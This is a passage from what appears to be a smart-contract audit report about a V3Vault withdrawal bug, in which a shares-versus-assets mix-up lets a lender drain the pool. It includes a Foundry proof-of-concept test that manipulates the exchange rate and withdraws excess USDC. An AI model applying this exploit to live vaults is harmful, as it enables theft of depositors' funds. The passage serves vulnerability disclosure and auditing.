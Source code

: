 In case the function is called with `isShare == true` (e.g `redeem()`) everything will be ok, since `amount == shares`. However if `_withdraw()` is called with `isShare == false` (e.g `withdraw()`) the conversion will be wrong, because `amount == assets`. This will inflate the assets variable and since there are no checks after that to prevent it, more tokens will be transferred to the owner than he owns.

## POC
I've coded a short POC in the `V3Vault.t.sol` test file to demonstrate the vulnerability

Short summary of the POC:

* A deposit is created for 10 USDC
* The vault is funded with additional assets
* `lastLendExchangeRateX96` is increased by 2% to simulate exchange rate dynamics
* owner calls `withdraw()` with an amount that is above the shares he owns so that the check can be activated
* owner receives the original 10 USDC + 10.3 USDC on top - effectively draining the pool

```solidity
using stdStorage for StdStorage;
....
function testWithdrawExploit(uint256 amount) external {
        // 0 borrow loan
        _setupBasicLoan(false);

        // provide additional 1000 USDC to vault
        deal(address(USDC), address(vault), 1000e6);

        uint256 lent = vault.lendInfo(WHALE_ACCOUNT);
        uint256 lentShares = vault.balanceOf(WHALE_ACCOUNT);

        // check max withdraw
        uint256 maxWithdrawal = vault.maxWithdraw(WHALE_ACCOUNT);

        // total available assets in vault is 1e9
        assertEq(vault.totalAssets(), 1e9);

        // lender can withdraw max 1e7 based on his shares
        assertEq(maxWithdrawal, 1e7);

        // balance before transfer
        uint256 balanceBefore = USDC.balanceOf(WHALE_ACCOUNT);

        // simulate lend exchange rate increases by 2%
        stdstore
            .target(address(vault))
            .sig("lastLendExchangeRateX96()")
            .checked_write(Q96 + ((Q96 * 2) / 100));

        vm.prank(WHALE_ACCOUNT);
        // activate  `shares > ownerBalance` check
        // by trying to withdraw more shares than owned
        vault.withdraw(maxWithdrawal * 2, WHALE_ACCOUNT, WHALE_ACCOUNT);

        // balance after transfer
        uint256 balanceAfter = USDC.balanceOf(WHALE_ACCOUNT);

        uint256 withdrawn = balanceAfter - balanceBefore;

        // lender has withdrawn more than he should
        assertGt(withdrawn, maxWithdrawal);

        // for initial deposit of 10 USDC, the lender received 10 USDC extra
        assertEq(withdrawn - maxWithdrawal, 10399999);
```